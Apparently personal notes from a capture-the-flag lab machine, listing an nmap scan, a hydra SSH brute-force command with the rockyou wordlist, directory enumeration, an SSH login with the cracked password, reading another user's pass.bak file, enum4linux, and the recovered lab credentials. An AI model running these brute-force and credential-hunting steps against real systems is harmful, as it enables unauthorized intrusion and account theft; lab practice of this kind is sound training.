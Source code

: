Machine IP: 10.10.135.87

Enum:

nmap -sV -sC -oA nmap/bpt 10.10.135.87

Ports:
    hydra -l jan -P ~/Documents/wordlists/rockyou.txt ssh://10.10.135.87
    Ssh 22 -> Atacking[ brute forcing with hydra - User: jan:armando ]
    Http 80
    139
    445

Dirbuster enum:
    http://10.10.135.87/development/

Loggin with ssh: ssh jan@ipmachine -p 22 : armando
Cd ..
Ls
Cd kay
vi pass.bak

For creds use:
enum4linux -v 10.10.135.87

User creds:
    jan:armando
    key:heresareallystrongpasswordthatfollowsthepasswordpolicy$$



